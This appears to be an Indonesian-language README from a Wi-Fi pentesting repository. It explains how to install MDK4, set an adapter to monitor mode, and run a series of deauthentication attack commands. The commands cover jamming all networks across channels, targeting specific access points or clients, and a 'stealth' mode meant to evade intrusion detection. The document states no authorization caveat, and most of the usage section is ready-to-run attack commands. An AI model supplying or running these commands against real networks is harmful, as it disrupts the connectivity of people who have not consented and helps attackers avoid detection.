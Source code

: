 # MDK4

![MDK4](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/mdk4/img/mdk3_4.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install mdk4 aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install pkg-config libnl-3-dev libnl-genl-3-dev libpcap-dev git
   git clone https://github.com/aircrack-ng/mdk4
   cd mdk4
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi:**

```
sudo airodump-ng [interface]
```

**2. Jalankan MDK4:**

   1. Deauth semua Wi-Fi di semua channel:

      ```
      sudo mdk4 [interface] d -c h
      ```

      Opsi `-c h` mengaktifkan channel hopping pada semua channel `b/g` (1–14). Secara default `MDK4` berpindah antar channel setiap 3 detik.
   2. Deauth semua Wi-Fi yang ada di channel tertentu:

      ```
      sudo mdk4 [interface] d -c [channel]
      ```
   3. Blacklist mode:

      ```
      sudo mdk4 [interface] d -b [file_blacklist] -c [channel]
      ```

      - Blacklist mode hanya melakukan deauth terhadap MAC address yang ada di file `[file_blacklist]`.
      - File `[file_blacklist]` berisi MAC address AP (BSSID) atau client yang akan di-deauth.
   4. Whitelist mode:

      ```
      sudo mdk4 [interface] d -w [file_whitelist] -c [channel]
      ```

      - Whitelist mode melakukan deauth terhadap semua MAC address, kecuali yang ada di file `[file_whitelist]`.
      - File `[file_whitelist]` berisi MAC address AP (BSSID) atau client yang akan dilindungi dari deauth.
   5. Speed control:

      ```
      sudo mdk4 [interface] d -s [speed] -c [channel]
      ```
      Speed control untuk mengatur kecepatan pengiriman paket dalam packets per second (pps). Tanpa opsi `-s`, defaultnya unlimited (tergantung kemampuan hardware).
   6. Mode stealth:

      ```
      sudo mdk4 [interface] d -c [channel] -x
      ```
      Opsi `-x` mengaktifkan IDS stealth dengan menyesuaikan sequence numbers paket untuk menghindari deteksi oleh Intrusion Detection System.
   7. Target AP berdasarkan ESSID:

      ```
      sudo mdk4 [interface] d -E [essid] -c [channel]
      ```
   8. Target AP berdasarkan BSSID:

      ```
      sudo mdk4 [interface] d -B [bssid] -c [channel]
      ```
   9. Target client spesifik:

      ```
      sudo mdk4 [interface] d -S [mac_client] -c [channel]
      ```
   10. Whitelist station spesifik:

      ```
      sudo mdk4 [interface] d -W [mac_client] -c [channel]
      ```

      Whitelist station spesifik akan melakukan deauth terhadap semua client, kecuali client `[mac_client]`.
      
## Video Demonstrasi

[https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z](https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z)

